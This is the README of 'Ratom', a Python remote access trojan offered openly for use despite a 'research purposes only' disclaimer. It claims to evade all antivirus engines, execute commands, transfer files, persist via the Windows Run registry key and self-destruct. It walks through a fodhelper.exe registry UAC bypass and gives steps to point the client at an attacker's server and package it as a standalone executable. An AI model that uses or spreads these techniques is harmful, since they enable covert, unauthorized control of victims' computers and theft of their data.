 # Ratom

A RAT which is like an atom. (In fact, it is not :)



**Disclaimer:**

- **For research purposes only.**
- **Accessing a computer system or network without authorization or explicit permission is illegal.**

&nbsp;

## Environment

Python 2.7

&nbsp;

## Features

### Cross platform

- Cross platform (Windows, Linux, and macOS)
- Bypass mainstream anti-virus (Bypass all detect engines on [Virus Total](https://www.virustotal.com/))
- Executing commands on target
- Upload & download files to and from target
- wget & unzip
- Self-destruction on target
- Obtain information of target's system & top 25 ports of target's host



### Windows specific

- Bypass Windows User Account Control (UAC) (Windows 10)
- Persistence (Start-up)
- Running in secret (I do not know how to hide the console window on Linux and Mac)

&nbsp;

## Details

### Bypass UAC

This function exploits a vulnerabilty found during the execution of a trusted binary called `fodhelper.exe`. 

- `fodhelper.exe` will look for registry key `HKCU:\Software\Classes\ms-settings\shell\open\command\(default)` first, by default this key does not exist in Windows 10. 
- Then it will look for `HKCU:\Software\Classes\ms-settings\Shell\Open\command\DelegateExecute`. 
- If it finds that key, `HKCU:\Software\Classes\ms-settings\shell\open\command` will get executed.

Since the `fodhelper.exe` binary has "auto-elevation" settings, the UAC prompt won't show during its execution. 

So we just need to:

- Creat `HKCU:\Software\Classes\ms-settings\Shell\Open\command\DelegateExecute`
- Change the value of `HKCU:\Software\Classes\ms-settings\shell\open\command\(default)` to `C:\Windows\System32\cmd.exe`

In this way, we can execute any command registered in the above keys without any consent.



### Start-up

Add `client.exe` to registry key `HKCU:Software\Microsoft\Windows\CurrentVersion\Run`.



### Self-destruction

Delete all registry keys creating by Ratom on target (if target's plaform is Windows) and delete executable file itself.

&nbsp;

## Usage

### server

Requirements:

```powershell
# Windows
pip install pycryptodome pyreadline
# Mac & Linux
pip install pycryptodome
```

Then:

```powershell
# specify port
python server.py --port 1335
# or use 1335 as default port 
python server.py
```



![help](docs/help.png)

&nbsp;

### client

Requirements:

```powershell
# Windows
pip install pycryptodome pywin32
# Mac & Linux
pip install pycryptodome
```

Modify host and port of your server here:

```python
HOST = 'xxx.xx.x.xxx'
PORT = xxxx
```

Then:

```powershell
python client.py
```

&nbsp;

### Build

```powershell
pip install pyinstaller
pyinstaller --onefile client.py
```

Then a `dist/` folder with an executable file in it will be generated.